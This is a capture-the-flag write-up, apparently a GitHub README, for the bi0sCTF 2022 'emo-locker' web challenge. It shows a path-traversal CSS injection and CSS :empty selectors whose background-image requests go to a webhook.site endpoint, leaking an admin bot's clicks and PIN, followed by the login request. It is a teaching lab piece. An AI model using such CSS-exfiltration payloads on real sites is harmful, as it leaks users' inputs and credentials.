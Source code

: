 # bi0sCTF-2022-emo-locker

![image](https://user-images.githubusercontent.com/14858959/214005352-76bf81ac-38ec-45c6-9b63-bdf036cb0130.png)


The first thing we identify is that the app is taking a value from the URL without filtering it and use it to load CSS code.
![image](https://user-images.githubusercontent.com/14858959/214001671-b508e6a2-23e2-4f8f-9df0-80f4bf4cf5da.png)

We can exploit this by inserting on the URL our custom hash, pointing to our malicious code:
```
https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/xxxxxxx-mode.css
```
By visiting `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/github_repo_here@github_commit_here/malicious.css?` the CSS that the page will load will be:
```
https://cdn.jsdelivr.net/gh/GramThanos/github_repo_here@github_commit_here/malicious.css?-mode.css
```

Since the code is in CSS, we will have to detect the user actions (click) using CSS. This is done by creating a request on each action and monitoring the requests. Normaly to do that you add background image requests on actions such as "hover", "focus", "active", but here since the client is a bot, such mouse events where not working.

First we added an instant request to verify that our code was working:
```css
body {background-image: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=loaded');}
```
![image](https://user-images.githubusercontent.com/14858959/214003245-2a86c85d-6a05-4b9e-b322-7a379ca1ebf4.png)

Then my observing the page we identified that on each click, the emoji was removed, leaving the button empty from content... thus after some searching we identified the `:empty` css selector that could be used to fire our events.
For for emoji with id 1 we had the CSS code:
```css
span[role=img][aria-label="1"]:empty {background: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=1');}
```

We send the link `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/bi0sCTF-2022-emo-locker@53e70828379f3826a4213dd952307526b4a4707a/malicious.css?` to the bot. And we got the click events:
![image](https://user-images.githubusercontent.com/14858959/214003788-0a64022e-8195-4d0f-9edb-a745e7eea470.png)
By instecting the events from the first to the last one we tritrieved the admin password:
```
[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]
``` 

We make to request to login:
```javascript
fetch("http://web.chall.bi0s.in:10101/api/login", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,el;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://web.chall.bi0s.in:10101/?",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"username\":\"admin\",\"pin\":[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
![image](https://user-images.githubusercontent.com/14858959/214001505-7888f7ef-10a7-4b46-9e3a-a8d7842a884d.png)


The flag is returned as a cookie:
![image](https://user-images.githubusercontent.com/14858959/214001253-0ba31965-9e3d-4bda-9ed4-f1a4083ccb0c.png)
